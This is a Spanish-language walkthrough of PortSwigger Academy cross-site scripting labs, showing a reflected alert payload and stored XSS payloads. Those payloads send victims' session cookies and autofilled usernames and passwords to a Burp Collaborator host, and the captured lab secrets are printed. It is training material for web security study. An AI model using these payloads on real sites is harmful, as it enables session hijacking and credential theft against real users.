


# Cross-site scripting - PortSwigger

Todos los laboratorios posteriormente expuestos los puedes encontrar para resolverlos en el siguiente link.

[https://portswigger.net/web-security/cross-site-scripting](https://portswigger.net/web-security/cross-site-scripting)

## Índice


## 1. Lab: Reflected XSS into HTML context with nothing encoded

```
Este laboratorio contiene una vulnerabilidad XSS reflejada simple en la función de búsqueda.

Para resolver el laboratorio, realice un ataque XSS que llame a la función alert.
```

Payload

```
https://acc21f861f22e8c880220b6c0070003c.web-security-academy.net/?search=<script>alert(1)</script>
```


## 2. Lab: Exploiting cross-site scripting to steal cookies

```
This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.
```

Para este laboratorio vamos a ingresar a un post y realizar un comentario mientras interceptamos todos los paquetes en segundo plano mediante la herramienta de burpsuite. Luego lo enviamos al repeater y preparamos nuestro payload.

```
<script>document.location='http://lti3h8huag0tmmzul0n2ujpz0q6gu5.burpcollaborator.net/?'+document.cookie</script>
```

Entonces lo enviamos en el repeater, y esperamos la respuesta en el burp collaborator.


Entonces, la cookie robada es la siguiente:

```
secret=avJbuCyJJiBnI7NFZJ4sbbdOXdKAb4Py; session=4TWOZsQYlS5PASECvxhQPUONxdZ5qi6l
```

Entonces ingresamos al home del laboratorio, interceptamos el paquete y cambiamos la cookie para completar el laboratorio.


## 3. Lab: Exploiting cross-site scripting to capture passwords

```
This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.
```

Entonces primero iremos a la seccion de login para recoger las dos etiquetas input de usuario y contraseña.

```
<input required="" type="username" name="username">
<input required="" type="password" name="password">
```

Y para obtener el valor dentro de estos input podemos usar el payload:

```
document.getElementsByName("username")[0].value
document.getElementsByName("password")[0].value
```

Entonces, creamos nuestro payload.

```html
<input required="" type="username" name="username"><input required="" type="password" name="password"><script>document.location='http://9s2dl5quximg9tsq7m5m5gvfj6pwdl.burpcollaborator.net/?'+document.getElementsByName("username")[0].value+'&'+document.getElementsByName("password")[0].value</script>
```

Entonces, iniciamos el modo **Intercept ON** del burpsuite, y cambiamos el valor del mensaje por el payload, encodeado con URL encode.


Podemos ver que envia el paquete



Pero lo envia sin informacion, esto puede ocurrir porque a la hora de realizar el document.location todavia no se realizó el autocompletado, por ello haremos uso del atributo **onchange**. 

```html
<input required="" type="username" name="username"><input required="" type="password" name="password" onchange="document.location='http://9s2dl5quximg9tsq7m5m5gvfj6pwdl.burpcollaborator.net/?'+document.getElementsByName('username')[0].value+'&'+document.getElementsByName('password')[0].value">
```


Entonces, verificamos el **burp collaborator** y obtenemos las credenciales.



```
administrator:ef6gbovly0a77qvxul8i
```

Entonces, nos logeamos con las credenciales y completamos el laboratorio.


## 4. Lab: Exploiting XSS to perform CSRF

